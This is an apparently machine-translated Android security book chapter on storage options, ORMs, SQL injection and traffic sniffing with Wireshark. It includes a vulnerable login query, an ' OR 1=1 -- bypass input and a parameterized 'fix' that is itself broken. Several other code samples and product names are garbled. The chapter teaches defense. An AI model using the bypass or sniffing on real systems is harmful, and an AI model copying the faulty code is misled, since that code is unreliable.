ProGuard 通常需要包含正在添加的新库的自定义配置，尤其是使用反射的库。在安卓工作室项目中，一个 ProGuard 文件会定期更新。

从支持库 19.1 开始，函数`@Keep`作为注释库的一部分被包含。此注释可用于指定方法不应被编程。当我们通过反射访问方法时，这尤其有用。

# 存储不安全

存储是将信息保存到我们的设备或计算机中的过程。安卓应用编程接口基本上提供了五种不同类型的存储:

## 分享偏好

第一个也是最基本的被称为`SharedPreferences`。这种类型的存储将我们保存的信息作为与每个值相关联的原语对保存到私有文件夹中的 XML 文件中。在下面的截图中，我们可以看到文件夹`shared_prefs`下的所有文件。那些文件是`SharedPreferences`文件。



如果我们从设备中取出其中一个，我们将能够看到以下内容:



XML 文件中的每个值具有以下结构:

```java
<string name="AppStateRepository:AppVersion">2.0.0_1266 p P 1/11/16 10:53 AM</string>
```

名称由文件名和变量名(我们用来存储值的名称)组成。原语的类型`SharedPreference`也在 XML 标签中被限定(例如`<string…</string>`)。最后，值包含在值中。

为了存储`SharedPreferences`，我们需要使用类似于下面的一个片段:

```java
SharedPreferences settings = getSharedPreferences("NameOfPreferences", 0);
SharedPreferences.Editor editor = settings.edit();
editor.putBoolean("exampleValue", false);
```

为了提交更改:

```java
editor.commit();
```

为了恢复刚才存储的相同值，我们需要按如下方式操作:

```java
SharedPreferences settings = getSharedPreferences("NameOfPreferences", 0);
boolean exampleValue = settings.getBoolean("exampleValue", false);
```

## 内部存储

另一种类型是 InternalStorage。这意味着将信息存储在设备的内部存储器中；它只能由应用访问。如果用户卸载应用，该文件夹也将被卸载。

这就是我们如何在`InternalStorage`中存储信息:

```java
String FILENAME = "hello_file";
String name = "hello world!";

FileOutputStream fos = openFileOutput(FILENAME, Context.MODE_PRIVATE);
fos.write(name.getBytes());
fos.close();
```

前面的片段将存储在名为`hello_file`的文件中，字符串`"hello_world"`。

有不同的模式来存储文件，不仅仅是我们在这个片段中看到的`MODE_PRIVATE`:

*   `MODE_APPEND`:这种模式意味着如果文件已经存在，它会在其末尾添加内容，而不是覆盖它。
*   `MODE_WORLD_READABLE`:对于文件来说，这是一种危险的模式，因为它将被整个系统读取，并且可能会造成安全漏洞。如果你想使用一种机制在应用之间共享信息，最好使用安卓的内置机制之一。该模式为文件提供了整个系统的读取模式。
*   `MODE_WORLD_WRITEABLE`:这与前面提到的类似，但是在这种情况下，它提供了写访问。

内部文件还有另一个有趣的功能。如果我们使用`getCacheDir()`功能打开它们，它们可以用作缓存机制。通过用这个命令打开一个文件，而不是持久保存，我们告诉安卓，当系统内存不足时，可以收集文件。请注意，不能 100%保证安卓会收集这个文件。您应该始终手动确保文件不会增长到某个大小以上，而不是依赖系统。当用户卸载应用时，所有这些文件都将被自动删除:


### 注

文件夹`data/data`受到保护，并且不能从非根设备(它们被称为**私有存储**)访问。然而，如果这些设备已经扎根，它们很容易被读取。这就是为什么一个人绝不能在那里存储关键信息。

## 外部储存

与之前研究的内部文件类似，ExternalStorage 将创建一个文件，但不是将其保存到私有文件夹，而是保存到外部文件夹(通常是 SD 卡)。为了使用外部权限，我们需要两个权限:

```java
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"
android:maxSdkVersion="18" />
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"
android:maxSdkVersion="18" />
```

注意线条`android:maxSdkVersion="18"`。从应用编程接口开始，18 级应用不再需要在外部页面上写入的权限。然而，由于极端的安卓碎片化正在发生，这是一个好主意。

正如读者可能已经想象的那样，这些权限分别用于写入和读取外部页面。

为了写入或读取 ExternalStorage，我们首先需要证明它是可用的(例如，单元可能没有安装，因此我们的应用将无法写入):

```java
public boolean checkIfExternalStorageIsWritable() {
String state = Environment.getExternalStorageState();
if (Environment.MEDIA_MOUNTED.equals(state)) {
     return true;
}
     return false;
}

public boolean checkIfExternalStorageIsReadable() {
   String state = Environment.getExternalStorageState();
   if (Environment.MEDIA_MOUNTED.equals(state) ||
   Environment.MEDIA_MOUNTED_READ_ONLY.equals(state)) {
      return true;
   }
   return false;
}
```

当我们检查到我们确实可以访问存储系统时，我们可以继续读取或写入文件。为了能够在文件中写入，我们采用了与 Java 非常相似的方式:

```java
String filename = FILENAME;
File file = new File(Environment.getExternalStorageDirectory(), filename);
FileOutputStream fos;

fos = new FileOutputStream(file);
fos.write(mediaTagBuffer);
fos.flush();
fos.close();
```

同样，如果我们想要从 ExternalStorage 中读取一个文件，我们将继续类似的片段:

```java
File file = new File(Environment.getExternalStorageDirectory()
.getAbsolutePath(), filename);
```

## 删除文件

请记住在使用 ExternalStorage 时，当应用被删除时，文件不会被删除。如果一个应用设计得很糟糕，我们最终可能会有大量的空间被永远不会被使用的文件占用。

通常的做法是将备份信息存储在 ExternalStorage 中，但您应该问问自己这是否是最佳选择。为了评估是否应该使用 ExternalStorage，最好首先查询设备中的可用空间量:

```java
File path = Environment.getExternalStorageDirectory();
StatFs stat = new StatFs(path.getPath());
long blockSize = stat.getBlockSize();
long availableBlocks = stat.getAvailableBlocks();
return Formatter.formatFileSize(this, availableBlocks * blockSize);
```

通过调用以下命令，可以轻松删除文件:

```java
file.delete();

```

## 使用外部或内部存储器

既然我们知道了这两种可能性，读者可能会询问哪个地方最适合存储信息。

没有银弹，也没有完美答案。答案可能会因您的限制和您试图解决的场景而异。但是，请记住以下几点作为总结:

*   ExternalStorage 保存保存在那里的文件，即使应用已经被删除。另一方面，当应用被删除时，存储在 InternalStorage 中的所有文件都将被删除。
*   InternalStorage 始终可用。ExternalStorage 可能可用，也可能不可用，具体取决于设备。
*   InternalStorage 提供了更好的保护，防止外来访问文件，而 ExternalStorage 是可以从整个应用中普遍访问的文件。请记住，根设备可以随时访问 InternalStorage 和 ExternalStorage。

## 数据库

安卓为 SQLite 数据库提供原生支持。使用数据库存储的文件存储在专用文件夹(`/data/data`)中。安卓原生提供了对象`SQLiteOpenHelper`，可以用来存储到表中。让我们看看`SQLiteOpenHelper`的代码示例:

```java
public class ExampleOpenHelper extends SQLiteOpenHelper {

   private static final int DATABASE_VERSION = 2;
   private static final String EXAMPLE_TABLE_NAME = "example";
   private static final String EXAMPLE_TABLE_CREATE =
           "CREATE TABLE " + EXAMPLE_TABLE_NAME + " (" +
           KEY_WORD + " TEXT, " +
           KEY_DEFINITION + " TEXT);";

   ExampleOpenHelper (Context context) {
      super(context, DATABASE_NAME, null, DATABASE_VERSION);
   }

   @Override
   public void onCreate(SQLiteDatabase db) {
      db.execSQL(EXAMPLE_TABLE_CREATE);
   }
}
```

如果数据库版本增加了，我们可以使用方法`onUpgrade()`，来更新数据库模式或者在我们的应用中执行任何需要的操作。下面的截图显示了安装在设备上的一个谷歌应用中的文件夹数据库:



## 数据库中的性能

安卓系统中的 SQLite 数据库可以增加几项性能改进。我们将在这里提到其中的一些:

*   如果您的应用正在执行单个事务块，请使用`db.beginTransaction();`和`db.endTransaction();`进行数据传输。默认情况下，每次执行事务时，SQLite 运行时都会为其创建一个包装器，这使得操作成本很高。这仅在您将此操作作为一个例程执行时是可取的(例如，在循环内部或迭代内部)。
*   就绩效而言，关系是昂贵的。即使您正在使用索引，处理关系所需的开销和工作量也是相当大的，这可能会明显降低应用的速度。
*   尽可能简化模式，尽可能避免冗余属性。另一方面，模式永远不应该过于一般化——这也会牺牲性能。模式的代表性和性能之间的权衡很难获得，但它是数据库生存的关键。
*   避免为需要频繁访问的表创建视图。如果发生这种情况，有时最好创建一个特定的表，并将所有信息存储在那里。
*   尽可能使用`SQLiteStatement`。`SQLiteStatement`是一个直接对数据库执行的 SQL 语句，从名字可以推断出来。它可以提供臭名昭著的性能和速度的提高，尤其是如果结合这个列表的第一点。

## SQL 注入

和所有的数据库系统一样，安卓系统中的 SQLite 也遭受并暴露出遭受 SQL 注入。

当恶意数据被插入合法查询中时，就会发生 SQL 注入，通常会对数据库产生有害影响。最好用一个例子来说明:

```java
public boolean checkLogin(String username, String password) {
   boolean bool = false;
   Cursor cursor = db.rawQuery("select * from login where USERNAME = 
      '" + username + "' and PASSWORD = '" + password + "';", null);

   if (cursor != null) {
      if (cursor.moveToFirst())
      bool = true;
      cursor.close();
   }
   return bool;
}
```

假设输入变量`username`和`password`取自用户必须输入它们的表单。在正常情况下，我们希望 SQL 查询可以转换成如下形式:

```java
select * from login where USERNAME = 'username' and PASSWORD = 'password'
```

但是让我们想象一下我们的用户是一个相当恶意的用户，他想要访问我们的数据库。他们可以输入:

```java
select * from login where USERNAME = '' OR 1=1 --' and PASSWORD = 'irrelevant'
```

由于他输入的条件(`1=1`)和被注释的查询的其余部分，他将实际上能够在不知道任何密码的情况下登录系统。为了防止 SQL 注入，最好的方法是清理正在输入的数据，并默认假设它不可信。为了做到这一点，我们将上面的代码片段更改为如下:

```java
public boolean checkLogin(String username, String password) {
   boolean bool = false;
   Cursor cursor = db.rawQuery("select * from login where USERNAME = 
      ? and PASSWORD = ", new String[]{param1, param2});

   if (cursor != null) {
      if (cursor.moveToFirst())
      bool = true;
      cursor.close();
   }
   return bool;
}
```

通过使用这种简单的技术，我们避免了恶意用户接管我们数据库的可能性。

## ORM 框架

除了在安卓中处理 SQL 存储的纯方法之外，还有一种流行的方法被称为 ORM 框架。虽然是一个旧的范例，但是 **ORM** (代表**对象关系映射**)简化了处理 ORM 对象的任务，将我们从低级查询中抽象出来，使我们能够专注于我们的应用细节。几乎每种语言都有几种 ORM 框架:Java 的 Hibernate、Ruby 的 ActiveRecord 等等。安卓有一堆可以用于 ORM 目的的库:事实上，安卓阿森纳提供了惊人的开源库集合。我们在这里提供了一些库的小例子来展示它们是如何工作的；当然，读者有责任评估所有的利弊，并决定将其实施到自己的项目中。

## 荷尔蒙

OrmLite 是一个基于 Java 的开源框架，提供 ORM 功能。请注意，这个名字不是安卓 ORM Lite——也就是说，它不是专门针对安卓设计的。OrmLite 大量使用注释。让我们看一个使用 OrmLite 的类的例子:

```java
@DatabaseTable(tableName = "books")
public class Book {
    @DatabaseField(id = true)
    private String isbn;
    @DatabaseField(id = true)
    private String title;
    @DatabaseField
    private String author;

    public User() {

    }
    public Book(String isbn, String title, String author) {
        this.isbn = isbn;
        this.title = title;
        this.author = author;
    }

    public String getIsbn() {
        return this.isbn;
    }
    public void setIsbn(String isbn) {
        this.isbn = isbn;
    }
    public String getTitle() {
        return this.title;
    }
    public void setTitle(String title) {
        this.title = title;
    }
    public String getAuthor() {
        return this.author;
    }
    public void setAuthor(String author) {
        this.author = author;
    }

}
```

可以在以下存储库中找到安卓的表单模板:

[https://github . com/j256/ormlite-Android](https://github.com/j256/ormlite-android)。

## sugar form

SugarORM 是专为安卓开发的 ORM 引擎，它可以从[http://satyan.github.io/sugar/index.html](http://satyan.github.io/sugar/index.html)下载。如果您使用的是带有 Gradle 的应用，那就更容易了，因为您还可以在 Gradle 构建文件中添加一行:

```java
compile 'com.github.satyan:sugar:1.4'
```

而 SugarORM 会自动添加到你的项目中。现在是时候更新你的`AndroidManifest.xml`文件了:

```java
  <meta-data android:name="DATABASE" android:value="sugar_example.db" />
    <meta-data android:name="VERSION" android:value="2" />
    <meta-data android:name="QUERY_LOG" android:value="true" />
    <meta-data android:name="DOMAIN_PACKAGE_NAME" android:value="com.example" />
```

这就是我们之前创建的类`Book`的样子:

```java
public class Book extends SugarRecord<Book> {
    String isbn;
    String title;
    String author;

    public Book() { }

    public Book(String isbn, String title,String author){
        this.isbn = isbn;
        this.title = title;
        this.author = author;
    }
}
```

在模型创建后添加用户再简单不过了:

```java
Book exampleBook = new Book(getContext(),"isbn","title","author"); exampleBook.save(); 
```

## 绿道

绿道可以说是安卓最快、性能最好的 ORM 引擎。它是专门为安卓设计的，所以它的开发确实考虑到了机器人平台的特殊性，这有助于 orm 引擎比 OrmLite 快 4.5 倍。下图取自 GreenDao 的官方网站，它显示了它在三种不同情况下与 OrmLite 相比的表现:插入语句、更新语句或加载实体。



## 境界

Realm 是一个相对来说新的 ORM 引擎，被提议用来替代 SQLite(以及 iOS 中的 CoreData)。Realm 并不是真正建立在 SQLite 之上，而是建立在它自己的持久性引擎之上。该引擎的优点之一是它是多平台的，因此可以在不同技术之间轻松重用。据说它非常轻便，速度也很快。它有一个简单和极简的性质，如果我们需要执行复杂的操作，这也可能是一个缺点。以`Book`为例，这就是我们使用 Realm 处理它的方式:

```java
Realm realm = Realm.getInstance(this.getContext());
realm.beginTransaction();
Book book = realm.createObject(Book.class);
book.setIsbn("1111111x11");
book.setTitle("Book Title");
book.setAuthor("Book author");
realm.commitTransaction();
```

## 网络

将数据存储在云、您自己的后端或任何其他在线解决方案上，就安全性而言，如果操作得当，将是最佳选择(阅读下一节关于与服务器通话时加密通信的内容)。为了执行网络操作，安卓系统默认提供了几个类，以及许多框架和库，它们可以提供一个高级层来创建 HTTP 请求。

# 加密通信

当创建网络服务并与应用通信时，使用加密的通信渠道是多么重要，我们怎么强调都不为过。

最初，它是作为科学机构之间交换文件和信息的协议，因此安全性在当时并不重要。

互联网发展得相当快，最初有限的 HTTPs 突然面临数百万用户之间的交互。有大量的资源来讨论 SSL 和加密是如何执行的。出于本书的目的，我们将提到 HTTPS(代表**【HTTP Secure】**，或通过 SSL 的 HTTP)下的通信通常受到保护，不会被轻易嗅探到。攻击者仍有一些方法可以设法闯入通信通道并窃取通信，但它们需要更好的知识和对受害者的访问。然而，我们会提到它们，以防读者想要检查它们。

## 嗅嗅

嗅探是攻击者从网络连接中收集信息的主要程序。有趣的是，为了嗅探其他设备的流量，您不需要欺骗它们并让它们连接到您自己的网络。只需连接到同一个网络就可以轻松完成。

为此你需要从 Wireshark 的官方网站[https://www.wireshark.org/](https://www.wireshark.org/)下载 Wireshark。根据您尝试安装的操作系统，您可能需要下载更多的软件包。打开无线网卡上的监视器或混杂模式。这个过程在 Linux 和各种 BSDs 系统(包括 Macintosh)中相当容易。在视窗系统中，这个过程可能非常复杂，有时需要特殊的无线网卡或工具。

当我们第一次启动 Wireshark 时，我们将显示一个类似于以下内容的屏幕:



在屏幕中央，将显示所有可监控的不同界面的列表。这可能因机器而异，但在前面的列表中，我们可以看到:

*   无线接口
*   Vboxnet 是对应于虚拟机的接口
*   麦金塔电脑的迅雷接口
*   lo0 或环回是本地机器
*   **苹果无线直连接口** ( **awdl** )

为了我们的测试目的，我们将启动一个仿真器，并选择接口 Wi-Fi 进行监控。

### 注

请注意，在您没有权限的网络中嗅探流量，在最好的情况下，可能不是很友好。最坏的情况是，你可能在犯罪。在将这些知识付诸实践之前，请检查您所在国家或地区的法律状况。

现在让我们从我们的设备开始导航。如果我们启动浏览器并导航到没有任何保护的网站，我们将能够显示浏览器正在执行的所有不同请求:带有 cookies 的 HTTP GET 操作、不同的资源等等:



在前面的截图中，我们能够看到 cookies、用户代理、主机……几乎整个 HTTP 请求都是透明的！这就是当我们试图连接到一个没有 SSL 的网址时会发生的情况。如果您检查安装在设备中的应用，您将能够看到这些应用通常不使用任何类型的加密，而只是以纯文本形式发送信息。

# 总结

本章分析了应用中的安全措施。安全本身是一个复杂的话题，可以延伸到几本书。读完这一章，读者就会知道数据是如何被截获的。他们将能够安全地存储信息。可以对代码进行渗透分析，反之，可以检查应用是否向其暴露敏感信息。

ProGuard 是保护我们的应用的广泛工具。我们建议读者进一步阅读官方文档。

读者在阅读本章后应该熟悉了在 Android 中安全存储信息的所有不同选项，以及优缺点。读者应该能够识别 SQL 注入，并知道如何防止它们。

当网络没有得到正确保护时，读者也会意识到嗅探流量的可能性。他们将熟悉 Wireshark 及其提供的可能性。

安全是一个巨大的话题，许多公司和研究小组积极投入资源来检测和防止隐私和安全标志。由于篇幅不够，还有很多其他商业和开源工具我们没有提到。对于更感兴趣的用户，我们建议阅读 OWASP 简讯。**